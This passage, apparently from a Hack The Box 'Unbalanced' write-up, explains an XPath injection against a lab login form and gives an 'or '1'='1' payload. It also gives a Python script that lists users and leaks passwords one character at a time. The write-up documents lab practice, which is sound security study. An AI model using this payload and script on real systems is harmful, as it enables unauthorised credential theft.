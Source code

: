 Using the payload: `<USERNAME>' and starts-with(Password, '<PART-OF-PASSWORD>') or '1'='1` we can slowly leak the password of the specified user.

In order to exploit the XPATH-injection, I created a simple [python script](https://github.com/chr0x6eos/HTB/blob/master/Unbalanced/xpath.py), which is available on my [GitHub](https://github.com/chr0x6eos/HTB/tree/master/Unbalanced). For this we need a couple of functions.

First, we create a function to simply send requests to the login form and return the html.

```python
# Send POST-request
def send_req(username:str="",password:str="") -> str:
    data = {
        'Username':username,
        'Password':password
    }
    return requests.post(url, data=data, proxies=proxy).text
```

Next, we create a function to parse the usernames.

```python
# Returns all usernames
def get_users() -> list:
    html = send_req("' or '1'='1","' or '1'='1")
    # Parse usernames
    soup = BeautifulSoup(html, 'html.parser')
    usernames = []
    # Usernames are in a <p class="w3-opacity"> element
    [usernames.append(p.text.strip()) for p in soup.find_all('p', {"class": "w3-opacity"})]
    return sorted(usernames) # Sort list by alphabet
```

Next, we define a function to check if the password was ok.

```python
# Returns True if part of password is OK
def check_pw(payload:str="") -> bool:
    return "Invalid credentials" not in send_req(username=payload)
```

Now we create a function to get the password for the specified user.

```python
# Gets password of specified user
def get_password(user:str) -> str:
    password = ""
    while True:
        for char in string.printable.strip():
            # Skip single-quote, as it break query
            if char == "'":
                continue
            # Payload to get password char-by-char
            payload = f"{user}' and starts-with(Password, '{password}{char}') or '1'='1"
            try:
                # Check if current char is valid
                if check_pw(payload=payload):
                    clear()
                    password += char
                    print(f"[*] Password: {password}")
                    break
            except Exception as ex:
                print(f"[!] Error: {ex}")
                break
        else: # No char valid, password done
            break
    clear()
    return password
```
